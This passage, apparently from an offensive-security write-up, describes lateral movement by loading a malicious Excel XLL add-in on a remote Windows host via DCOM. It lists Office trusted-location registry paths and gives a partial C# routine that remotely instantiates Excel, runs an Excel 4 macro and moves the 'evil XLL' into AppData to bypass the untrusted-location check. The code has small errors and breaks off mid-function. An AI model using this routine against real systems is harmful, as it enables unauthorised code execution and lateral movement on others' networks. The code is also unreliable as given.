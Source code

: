 ```powershell
    Path    REG_EXPAND_SZ    %APPDATA%\Microsoft\Excel\XLSTART
    Path    REG_EXPAND_SZ    %APPDATA%\Microsoft\Templates
    Path    REG_SZ    C:\Program Files\Microsoft Office\Root\Templates\
    Path    REG_SZ    C:\Program Files\Microsoft Office\Root\Office16\STARTUP\

```

The value %APPDATA% seemed very promising. On Windows system, the appdata value is set by default to `C:\Users\{username}\AppData\Roaming`. As any user can access its own AppData folder, simply moving the XLL under `C:\Users\{username}\AppData\Roaming\Microsoft\Excel\XLSTART` and load it, would be enough to bypass the path restriction. 

In the context of Lateral Movement, that would be perfectly fine as long as we could compromise a user on the remote system. Once executed, the following C# code would try to move the evil XLL under the correct path, before loading it:

```cs
public static void ExcelXLL(string target, string user, string binary, string args=null)
{
    if (!user || user == "")
    {
        Console.WriteLine(" [x] Invalid username");
        return;
    }
    if (!File.Exists(binary))
    {
        Console.WriteLine(" [x] XLL not found");
        return;
    }

    string absPath = Path.GetFullPath(binary);
    string path = Path.GetDirectoryName(absPath);
    string fakePath = $"C:\\Users\\{user}\\AppData\\Microsoft\\Excel\\XLSTART";
    string filePath = binary;
    string fakeFilePath = Path.Combine(fakePath, Path.GetFileNameWithoutExtension(Path.GetRandomFileName()) + ".xll");

    if (!Validator.IsValidXLLPath(path))
    {
        Console.WriteLine(" [x] WARNING: Loading XLL from untrusted location is disabled by default");
        path = fakePath;
    }

    var macro = $"DIRECTORY(\"{path}\")";

    try
    {
        var type = Type.GetTypeFromProgID("Excel.Application", target);
        var obj = Activator.CreateInstance(type);
        obj.GetType().InvokeMember("ExecuteExcel4Macro", BindingFlags.InvokeMethod, null, obj,
            new object[] { macro });

        if (!Validator.IsValidXLLPath(path))
        {
            Console.WriteLine(" [-] WARNING: Trying to move XLL into AppData to bypass untrusted location check");
            Console.WriteLine($" [+] INFO: Old File Location {absPath}");
            Console.WriteLine($" [+] INFO: New AppData {path}");
            if (!Directory.Exists(fakePath))
            {
                DirectoryInfo di = Directory.CreateDirectory(fakePath);
            }
            Console.WriteLine(" [+] Moving XLL file");
```